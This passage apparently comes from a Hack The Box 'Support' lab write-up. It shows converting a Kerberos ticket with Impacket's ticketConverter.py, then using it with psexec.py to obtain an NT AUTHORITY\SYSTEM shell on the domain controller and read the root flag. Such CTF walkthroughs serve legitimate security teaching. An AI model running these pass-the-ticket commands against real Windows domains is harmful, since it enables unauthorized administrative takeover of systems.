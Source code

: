 Now, we can convert this ticket to a format that Impacket can use:

`ticketConverter.py ticket.kirbi ticket.ccache` 

If you don’t have Impacket installed: `python3 -m pipx install impacket`

pipx is a tool where you can install python tools isolated: `sudo apt install pipx -y`

Now you can run the command with `ticketConverter.py`

<img src='/images/HTB_Support/afbeelding 28.png'>

Now, to get a shell we can use Impackets `psexec.py` :

`KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass`

<img src='/images/HTB_Support/afbeelding 29.png'>

Yess we got a shell. We are now the `nt authority\System` which can be seen with `whoami` .

The flag can be found in `C:\Users\Administrator\Desktop` with the `type root.txt` command.
